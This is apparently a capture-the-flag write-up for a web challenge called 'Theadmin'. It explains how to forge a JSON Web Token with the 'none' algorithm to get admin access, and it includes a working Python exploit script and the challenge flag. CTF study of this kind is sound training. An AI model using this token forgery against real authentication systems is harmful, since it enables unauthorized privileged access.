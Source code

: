 ```yaml
---
title: Theadmin
categories: "Web Exploitation"
tags: 
draft: true
completedDuringEvent: true
submitted: true
flag: QUESTCON{J3T_4lg0r1thm_15_vuln3r4bl3_70_n0n3}
---
```

## Scenario

> The Professor has left a vulnerable authentication system. Can you exploit it and gain admin not just using admin? Sometimes the simplest loopholes can lead to the biggest breakthroughs. Its simple but **none** of you could figure out.

## Solution

You need to send a POST request to the `https://<url>/auth` endpoint with the username `admin`. The server will respond with a JSON object containing a token. This token is a JSON Web Token (JWT) that is base64 encoded and consists of three parts separated by a dot (`.`): the header, the payload, and the signature. You should create a new header with the algorithm set to `none` and the type set to `JWT`. Then, decode the payload from the token and create a new payload. After that, encode the new header and the new payload separately. Finally, send a GET request to the `https://<url>/access` endpoint with the new header and the new payload.

Here is the Python script to exploit the vulnerability:

```py
import requests
import base64

auth_url = "https://questcon-theadmin.chals.io/auth"
access_url = "https://questcon-theadmin.chals.io/access"

response = requests.post(auth_url, json={"username": "admin"})
response_header = b'{"alg": "none", "typ": "JWT"}'
response_payload = base64.b64decode(response.json()["token"].split(".")[1] + "==")

headers = {"Authorization": f"Bearer {base64.b64encode(response_header).decode().rstrip('=')}.{base64.b64encode(response_payload).decode().rstrip('=')}."}
response = requests.get(access_url, headers=headers)
print(response.text)
```
